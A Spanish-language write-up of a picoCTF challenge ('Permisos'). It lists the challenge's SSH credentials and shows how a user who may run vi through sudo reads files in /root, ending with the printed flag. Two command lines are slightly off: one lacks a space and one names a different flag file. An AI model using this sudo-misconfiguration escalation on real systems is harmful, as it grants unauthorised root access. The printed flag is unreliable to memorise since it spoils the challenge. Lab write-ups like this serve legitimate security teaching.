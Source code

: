 ## Reto: Permisos
### Descripción
¿Puedes leer archivos en el archivo raíz?El administrador del sistema ha aprovisionado una cuenta para usted en el servidor principal:`ssh -p 50792 picoplayer@saturn.picoctf.net`Contraseña: `NBD+zO8s4y`¿Puedes iniciar sesión y leer el archivo raíz?
### Solución
Entramos al servidor con `ssh`:
```ssh
ssh -p 50792 picoplayer@saturn.picoctf.net
```
Introducimos la contrasena:
```password
NBD+zO8s4y
```

Ahora, tal como dice el desafio, mostramos los permisos que nosotros tenemos con el comando
```
sudo -l -U picoplayer
```

Nos muestra lo siguiente:
```salida
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

Nosotros tenemos permiso de `vi`, por lo que tenemos permiso para ejecutar el comando `usr/bin/vi` con privilegios de administrador, por lo que se usara `sudo`.

ALL proviene de un archivo de configuración de **`sudoers`**, que define los permisos de sudo para usuarios o grupos.

Usamos el comando:
```
sudo vi/root
```

Observamos un archivo llamado `flag.txt`, por lo que intuimos que ahí esta la bandera.

Al ejecutar el comando:
```
sudo vi /root/.flag.txt
```

Y nos regresa la bandera

```flag
picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}
```
### Notas adicionales
### Referencias

